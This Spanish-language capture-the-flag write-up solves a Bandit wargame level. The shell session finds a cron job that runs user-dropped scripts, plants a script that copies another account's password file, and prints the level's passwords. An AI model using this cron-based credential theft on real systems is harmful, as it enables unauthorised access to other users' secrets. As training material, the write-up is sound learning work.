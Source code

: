 # Bandit

## Objetivo
Un programa se ejecuta automáticamente a intervalos regulares desde **cron** , el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** este nivel requiere que cree su propio primer script de shell. ¡Este es un paso muy grande y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** tenga en cuenta que su script de shell se elimina una vez que se ejecuta, por lo que es posible que desee conservar una copia...
## Datos de acceso
Usuario: bandit23
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion
```shell
bandit23@bandit:~$ ls -la /etc/cron.d
total 48
drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
drwxr-xr-x 110 root root 4096 Sep  8 12:09 ..
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.ssh
cat: /usr/bin/cronjob_bandit24.ssh: No such file or directory
bandit23@bandit:~$ mkdir /tmp/kiriha
bandit23@bandit:~$ cd /tmp/kiriha
bandit23@bandit:/tmp/kiriha$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kiriha/password" > kiriha.sh
bandit23@bandit:/tmp/kiriha$ cat kiriha
cat: kiriha: No such file or directory
bandit23@bandit:/tmp/kiriha$ cat kiriha.sh
cat /etc/bandit_pass/bandit24 > /tmp/kiriha/password
bandit23@bandit:/tmp/kiriha$ chmod 777 kiriha.sh
bandit23@bandit:/tmp/kiriha$ touch password
bandit23@bandit:/tmp/kiriha$ ls -la
total 332
drwxrwxr-x   2 bandit23 bandit23   4096 Sep 26 00:26 .
drwxrwx-wt 300 root     root     327680 Sep 26 00:22 ..
-rwxrwxrwx   1 bandit23 bandit23     53 Sep 26 00:24 kiriha.sh
-rw-rw-r--   1 bandit23 bandit23      0 Sep 26 00:26 password
bandit23@bandit:/tmp/kiriha$ chmod 666 password
bandit23@bandit:/tmp/kiriha$ cp kiriha.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kiriha$ date
Mon Sep 26 12:34:44 AM UTC 2022

bandit23@bandit:/tmp/kiriha$ cat password

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Notas adicionales
Fijate en los /usr/bin/cronjob_bandit24.sh cuando se haga el cat /etc/cron.d/cronjob_bandit24 ya que ahi nos decia al tiempo en que se tardaria en copiar la contraseña.
## Referencias

